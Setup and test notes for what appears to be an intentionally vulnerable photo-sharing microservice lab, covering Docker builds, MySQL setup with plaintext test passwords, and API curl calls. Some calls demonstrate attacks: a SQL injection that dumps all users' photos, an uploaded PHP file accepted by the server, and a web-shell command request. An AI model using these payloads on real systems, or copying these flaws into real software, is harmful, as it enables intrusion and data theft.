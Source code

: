 ```
docker build -t usatpath01/vulnerable-photo-app-frontend:latest ./frontend
docker build -t usatpath01/vulnerable-photo-app-api-gateway:latest ./api_gateway
docker build -t usatpath01/vulnerable-photo-app-user-service:latest ./user_service
docker build -t usatpath01/vulnerable-photo-app-photo-service:latest ./photo_service
docker build -t usatpath01/vulnerable-photo-app-notification-service:latest ./notification_service
docker build -t usatpath01/vulnerable-photo-app-recommendation-service:latest ./recommendation_service
docker build -t usatpath01/vulnerable-photo-app-analytics-service:latest ./analytics_service
```
```
docker push usatpath01/vulnerable-photo-app-frontend:latest
docker push usatpath01/vulnerable-photo-app-api-gateway:latest
docker push usatpath01/vulnerable-photo-app-user-service:latest
docker push usatpath01/vulnerable-photo-app-photo-service:latest
docker push usatpath01/vulnerable-photo-app-notification-service:latest
docker push usatpath01/vulnerable-photo-app-recommendation-service:latest
docker push usatpath01/vulnerable-photo-app-analytics-service:latest
```

```
from api container
apk add curl
curl http://user_service:5000/api/v1/users/test-db-connection
```

```
docker exec -it e38172ae10a5 mysql -uroot -pinsecure_password
USE users;
CREATE TABLE users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(255) NOT NULL UNIQUE,
    password VARCHAR(255) NOT NULL,
    email VARCHAR(255) NOT NULL UNIQUE,
    is_admin BOOLEAN DEFAULT FALSE
);
INSERT INTO users (username, password, email) VALUES ('testuser', 'testpassword', 'testuser@example.com');
```

```
docker exec -it e38172ae10a5 mysql -uroot -pinsecure_password
USE photos;
CREATE TABLE IF NOT EXISTS photos (
    id INT AUTO_INCREMENT PRIMARY KEY,
    filename VARCHAR(255) NOT NULL,
    user_id INT NOT NULL,
    upload_date TIMESTAMP DEFAULT CURRENT_TIMESTAMP);

INSERT INTO photos (filename, user_id, upload_date) VALUES ('docker.png', 1, '2001-09-10');

```



# Endpoint
```
curl -X POST "http://10.5.20.45:8000/api/users/login"      -H "Content-Type: application/json"      -d '{"username":"testuser","password":"testpassword"}'
{
  "message": "Login successful", 
  "status": "success", 
  "user": {
    "email": "testuser@example.com", 
    "id": 1, 
    "username": "testuser"
  }
}

curl -X POST "http://10.5.20.45:8000/api/users/login"      -H "Content-Type: application/json"      -d '{"username":"testuser","password":"testpasswossrd"}'
{
  "message": "Invalid credentials", 
  "status": "error"
}

curl -X POST "http://10.5.20.45:8000/api/users/register"      -H "Content-Type: application/json"      -d '{"username":"newuser", "password":"newpassword", "email":"newuser@example.com"}'
{
  "message": "User registered successfully", 
  "status": "success", 
  "user": {
    "email": "newuser@example.com", 
    "id": 1, 
    "username": "newuser"
  }
}


curl -X POST "http://10.5.20.45:8000/api/photos/upload" \
     -H "Content-Type: multipart/form-data" \
     -F "file=@Docker.png" \
     -F "user_id=1"

{
  "filename": "9e210176-6c49-42c4-8e44-136642a0b275.png", 
  "message": "File uploaded successfully", 
  "status": "success"
}

curl -X POST "http://10.5.20.45:8000/api/photos/upload" \
     -H "Content-Type: multipart/form-data" \
     -F "file=@test.png" \
     -F "user_id=3"

curl -X GET "http://10.5.20.45:8000/photos?user_id=1"
```
curl -X POST "http://10.5.20.45:8000/api/photos/upload" \
     -H "Content-Type: multipart/form-data" \
     -F "file=@Docker.png" \
     -F "user_id=3"
{"filename":"e1d70097-dc14-4ddf-948b-efc113304eac.png","message":"File uploaded successfully","status":"success"}

mysql> select * from photos;
+----+------------------------------------------+---------+---------------------+
| id | filename                                 | user_id | upload_date         |
+----+------------------------------------------+---------+---------------------+
|  1 | docker.png                               |       1 | 2001-09-10 00:00:00 |
|  2 | e1d70097-dc14-4ddf-948b-efc113304eac.png |       2 | 2024-09-20 15:37:39 |
|  3 | b40051e6-de40-42fb-aee5-82646e39f2a8.png |       3 | 2024-09-20 15:39:00 |
+----+------------------------------------------+---------+---------------------+
3 rows in set (0.00 sec)

 curl -X GET "http://10.5.20.45:8000/api/photos?user_id=1"
{
  "photos": [
    [
      1, 
      "docker.png", 
      1, 
      "Mon, 10 Sep 2001 00:00:00 GMT"
    ]
  ], 
  "status": "success"
}


curl -X GET "http://10.5.20.45:8000/api/photos?user_id=1%20OR%201%3D1"
{
  "photos": [
    [
      1, 
      "docker.png", 
      1, 
      "Mon, 10 Sep 2001 00:00:00 GMT"
    ], 
    [
      2, 
      "e1d70097-dc14-4ddf-948b-efc113304eac.png", 
      2, 
      "Fri, 20 Sep 2024 15:37:39 GMT"
    ], 
    [
      3, 
      "b40051e6-de40-42fb-aee5-82646e39f2a8.png", 
      3, 
      "Fri, 20 Sep 2024 15:39:00 GMT"
    ]
  ], 
  "status": "success"
}

curl "http://10.5.20.45:8000/api/photos/5f03820f-9ec9-439c-aca2-bb5a00c8faf2.php?user_id=1&cmd=ls"

curl -X GET "http://10.5.20.45:8000/api/photos/b40051e6-de40-42fb-aee5-82646e39f2a8.png" --output downloaded_image.png

curl -X POST "http://10.5.20.45:8000/api/photos/upload" \
     -H "Content-Type: multipart/form-data" \
     -F "file=@malicious.php" \
     -F "user_id=123"
{"filename":"b124236a-f516-4c1f-a022-408f32e071dc.php","message":"File uploaded successfully","status":"success"}


```
docker tag usatpath01/vulnerable-photo-app-analytics-service:v1 usatpath01/vulnerable-photo-app-analytics-service:v1
docker tag usatpath01/vulnerable-photo-app-notification-service:v1 usatpath01/vulnerable-photo-app-notification-service:v1
docker tag usatpath01/vulnerable-photo-app-api_gateway:v1 usatpath01/vulnerable-photo-app-api_gateway:v1
docker tag usatpath01/vulnerable-photo-app-frontend-service:v1 usatpath01/vulnerable-photo-app-frontend-service:v1
docker tag usatpath01/vulnerable-photo-app-photo-service:v1 usatpath01/vulnerable-photo-app-photo-service:v1
docker tag usatpath01/vulnerable-photo-app-recommedation-service:v1 usatpath01/vulnerable-photo-app-recommedation-service:v1
docker tag usatpath01/vulnerable-photo-app-user-service:v1 usatpath01/vulnerable-photo-app-user-service:v1
```
```
git push -u origin main
```